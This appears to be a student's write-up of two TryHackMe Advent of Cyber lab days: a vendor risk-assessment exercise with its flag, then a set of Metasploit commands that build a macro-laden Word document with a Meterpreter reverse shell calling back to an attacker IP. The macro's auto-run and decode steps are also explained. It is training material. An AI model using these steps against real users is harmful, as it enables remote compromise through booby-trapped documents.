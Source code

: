 **Challenge:**
- The site provided with the challenge had answers from three vendors to be assessed for their risks. After allotting a score for each of the three questions to each of the three vendors, the overall lowest risk score is found. One such question was:

![day9.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/AOC24/img/day9.JPG?raw=true)

**Questions:**
1. *What does GRC stand for?*
**Answer:** Governance, Risk, and Compliance

2. *What is the flag you receive after performing the risk assessment?*
**Answer:** THM{R15K_M4N4G3D}. This was obtained at the end of the assessment after picking the vendor with the lowest risk score.

**Concepts:**
- Risk Management - how they're done, why and where.

# Day 10

**Challenge:**
- Metasploit Framework is used to create a Word document with macro. The following commands create the document. 
	- `msfconsole`
	- `set payload windows/meterpreter/reverse_tcp`
	- `use exploit/multi/fileformat/office_word_macro`
	- `set LHOST [ATTACKBOX IP]`
	- `set LPORT 8888`
	- `show options`
	- `exploit`
	- `exit`
- The following functions make up the malicious macro: `AutoOpen()` triggers the macro in the MSWord document and also scans the Comments field which contains base64 encoding of the payload. `Base64Decode()` converts it to an executable MS Word file and `ExecuteForWindows()` connects to the attacker's IP.